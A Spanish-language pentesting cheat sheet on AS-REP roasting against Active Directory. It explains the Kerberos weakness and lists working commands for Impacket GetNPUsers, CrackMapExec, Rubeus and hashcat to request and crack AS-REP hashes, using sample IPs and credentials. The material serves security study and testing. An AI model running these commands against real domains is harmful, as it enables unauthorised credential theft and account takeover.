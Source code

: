 # ASREProstable 

Tags: #AD #ASREProstable #Rubeus #Impacket #Crackmapexec #HashCat #Windows 

El "KRB_AS_REP Roasting" es un ataque dirigido a cuentas en dominios de Active Directory (AD) que tienen habilitada la opción "No requiere preautenticación de Kerberos". Esta configuración permite a un atacante solicitar un ticket de autenticación (AS-REP) sin proporcionar una preautenticación válida. El atacante puede capturar este ticket y descifrarlo fuera de línea para intentar recuperar las contraseñas en texto claro de las cuentas afectadas. Este método explota configuraciones inseguras y puede ser mitigado desactivando dicha propiedad en las cuentas y aplicando contraseñas fuertes junto con políticas de monitoreo.

* [CVE-2022-33679](https://infayer.com/archivos/1661)

```bash 
1. Preautenticación de Kerberos: Normalmente, Kerberos requiere que un usuario proporcione no solo su nombre de usuario sino también su contraseña para obtener un ticket TGT (Ticket Granting Ticket) durante el proceso de autenticación inicial (AS-REQ). Esta es una medida de seguridad diseñada para prevenir ataques de tipo "offline" en los que se intenta adivinar las contraseñas.
    
2. Cuentas sin Preautenticación: Sin embargo, en algunos casos, esta propiedad puede estar deshabilitada para ciertas cuentas debido a necesidades de compatibilidad o configuraciones erróneas. Esto significa que el KDC (Key Distribution Center) enviará la respuesta (AS-REP) que contiene el TGT cifrado sin requerir una prueba válida de conocimiento de la contraseña del usuario.

# Funcionamiento 

1. Enumeración de Usuarios: Un atacante primero enumerará las cuentas de usuario que tienen deshabilitada la preautenticación de Kerberos.
    
2. Solicitud de TGT: Luego, el atacante puede enviar una solicitud AS-REQ para esas cuentas y el KDC responderá con un AS-REP que contiene el TGT cifrado usando la contraseña del usuario.
    
3. Ataque Offline: A diferencia de un ataque de fuerza bruta online, el atacante puede ahora intentar descifrar el TGT offline, utilizando herramientas de cracking de contraseñas para adivinar la contraseña sin alertar al sistema o bloquear la cuenta de usuario.
```

## Sincronizar el reloj 

```bash 
Nota: Antes de iniciar al ataque debemos de sincronizar el reloj de la maquina de atacante con el AD

❯ ntpdate IP     # Sincronizar el reloj 

	# IP = Dirección IP del DC

❯ date -s "2025-01-04 15:30:00"   # Restablecer la fecha y hora
```

## Explotar con Impacket

```bash 
# Ejemplo de un hash 

❯ $krb5asrep$23$asrep.user@domain1.corp:0939461A3CF12B34FC2EEDE8C8154E15$55613643FA62AB315871CFD9B90978AB2D3...
```

```bash 
❯ impacket-GetNPUsers 'domain1.corp/asrep.user' -no-pass -dc-ip 18.116.10.36 -request

	# domain1.corp/asrep.user = Usuario vulnerable o lista de usuarios 
	# no-pass = No hay una contraseña 
	# dc-ip = Ip del DC
```

## Explotar con CrackMapExec

```bash 
❯ ./cme ldap 18.116.10.36 -u 'clearpass.user' -p 'Password@1' --asreproast output.txt
```

## Explotar con Rubeus 

```powershell
❯ .\Rubeus.exe asreproast /user:asrep.user /format:hashcat /outfile:hashes.asreproast 

	# user = Usuario vulnerable
	# outfile = Exportar a un archivo 
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 --force hashes.asreproast /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```
